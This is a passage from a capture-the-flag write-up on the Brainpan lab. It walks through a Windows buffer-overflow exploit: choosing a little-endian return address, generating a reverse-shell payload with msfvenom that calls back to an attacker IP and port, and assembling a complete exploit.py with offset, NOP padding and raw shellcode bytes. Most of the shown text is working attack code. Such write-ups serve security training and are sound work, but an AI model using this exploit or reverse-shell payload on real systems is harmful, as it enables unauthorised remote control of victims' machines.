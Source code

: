 ![brainpan](/assets/img/thm_brainpan/jmp.png)

We found 1 pointer `0x311712f3` which can be used as return value for our exploit. Since the requirement is little endian, we have to reverse the pointer.

31 17 12 f3 is `\xf3\x12\x17\x31`

Generating the payload with msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.17.7.122 LPORT=1234 EXITFUNC=thread -b "\x00" -f c`

some explaining here:
+ `-p` is payload. we used `windows/shell_reverse_tcp`
+ **LHOST**,**LPORT** is the IP address and port that the reverse connection is made to. meaning the attacker machine ip and port.
+ `-b` is the parameter for mentioning bad characters to avoid, i.e `\x00`
+ `-f` is the format. we used **c** format.

Also add *padding* to allow the payload to unpack.

Lets update our exploit with our findings. This is how the final `exploit.py` looks like.

```python
import socket

ip = "10.10.127.68"
port = 9999

prefix = ""
offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
payload = "\xb8\x18\x5e\xea\x66\xdb\xcb\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x52\x31\x47\x12\x03\x47\x12\x83\xdf\x5a\x08\x93\x23\x8a\x4e\x5c\xdb\x4b\x2f\xd4\x3e\x7a\x6f\x82\x4b\x2d\x5f\xc0\x19\xc2\x14\x84\x89\x51\x58\x01\xbe\xd2\xd7\x77\xf1\xe3\x44\x4b\x90\x67\x97\x98\x72\x59\x58\xed\x73\x9e\x85\x1c\x21\x77\xc1\xb3\xd5\xfc\x9f\x0f\x5e\x4e\x31\x08\x83\x07\x30\x39\x12\x13\x6b\x99\x95\xf0\x07\x90\x8d\x15\x2d\x6a\x26\xed\xd9\x6d\xee\x3f\x21\xc1\xcf\x8f\xd0\x1b\x08\x37\x0b\x6e\x60\x4b\xb6\x69\xb7\x31\x6c\xff\x23\x91\xe7\xa7\x8f\x23\x2b\x31\x44\x2f\x80\x35\x02\x2c\x17\x99\x39\x48\x9c\x1c\xed\xd8\xe6\x3a\x29\x80\xbd\x23\x68\x6c\x13\x5b\x6a\xcf\xcc\xf9\xe1\xe2\x19\x70\xa8\x6a\xed\xb9\x52\x6b\x79\xc9\x21\x59\x26\x61\xad\xd1\xaf\xaf\x2a\x15\x9a\x08\xa4\xe8\x25\x69\xed\x2e\x71\x39\x85\x87\xfa\xd2\x55\x27\x2f\x74\x05\x87\x80\x35\xf5\x67\x71\xde\x1f\x68\xae\xfe\x20\xa2\xc7\x95\xdb\x25\xe2\x78\xe4\xcf\x9a\x78\xea\x2b\x89\xf4\x0c\x59\x3d\x51\x87\xf6\xa4\xf8\x53\x66\x28\xd7\x1e\xa8\xa2\xd4\xdf\x67\x43\x90\xf3\x10\xa3\xef\xa9\xb7\xbc\xc5\xc5\x54\x2e\x82\x15\x12\x53\x1d\x42\x73\xa5\x54\x06\x69\x9c\xce\x34\x70\x78\x28\xfc\xaf\xb9\xb7\xfd\x22\x85\x93\xed\xfa\x06\x98\x59\x53\x51\x76\x37\x15\x0b\x38\xe1\xcf\xe0\x92\x65\x89\xca\x24\xf3\x96\x06\xd3\x1b\x26\xff\xa2\x24\x87\x97\x22\x5d\xf5\x07\xcc\xb4\xbd\x28\x2f\x1c\xc8\xc0\xf6\xf5\x71\x8d\x08\x20\xb5\xa8\x8a\xc0\x46\x4f\x92\xa1\x43\x0b\x14\x5a\x3e\x04\xf1\x5c\xed\x25\xd0"
```